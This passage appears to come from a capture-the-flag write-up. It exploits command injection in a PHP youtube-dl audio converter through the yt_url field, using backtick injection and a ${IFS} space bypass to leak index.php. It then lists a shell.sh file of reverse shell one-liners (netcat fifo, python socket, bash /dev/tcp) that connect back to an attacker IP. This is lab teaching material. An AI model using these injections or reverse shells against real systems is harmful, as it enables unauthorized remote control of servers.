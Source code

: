 ### Trying to read index.php
### Request
```html
yt_url=`cat index.php`
```

### Response
```html
{"status":2,"errors":"sh: 1: Syntax error: EOF in backquote substitution\n","url_orginal":"`cat","output":"","result_url":"\/tmp\/downloads\/5fbe292419b34.mp3"}
```
We get a syntax error. We can easily bypass this using  **${IFS}**

### Request
```html
yt_url=`cat${IFS}index.php>/var/www/html/test.txt`
```
### Response
```php
<?php

if(!empty($_SERVER['HTTP_X_REQUESTED_WITH']) && strtolower($_SERVER['HTTP_X_REQUESTED_WITH']) == 'xmlhttprequest' && $_SERVER['REQUEST_METHOD'] === 'POST')
{    
   $yt_url = explode(" ", $_POST["yt_url"])[0];
   $id = uniqid();
   $filename = $id.".%(ext)s";
   $template = '/var/www/html/tmp/downloads/'. $filename;
   $string = ('youtube-dl --extract-audio --audio-format mp3 ' . $yt_url . ' -f 18 -o ' . escapeshellarg($template));

   $descriptorspec = array(
      0 => array("pipe", "r"),  // stdin
      1 => array("pipe", "w"),  // stdout
      2 => array("pipe", "w"),  // stderr
   );
   ....
   ....
   ?>
   ```
   We get the content of index.php.

   Now lets try and get a reverse shell. For that first I would open up a python HTTP server on my local machine with a file with bunch of reverse shell payloads. Then I will download that file on the remote machine and save it on a file on first step and will execute that file on next step.

### Content of shell.sh
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.31.213 9001 >/tmp/f
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.31.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.31.213",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
bash -i >& /dev/tcp/10.6.31.213/9001 0>&1
```
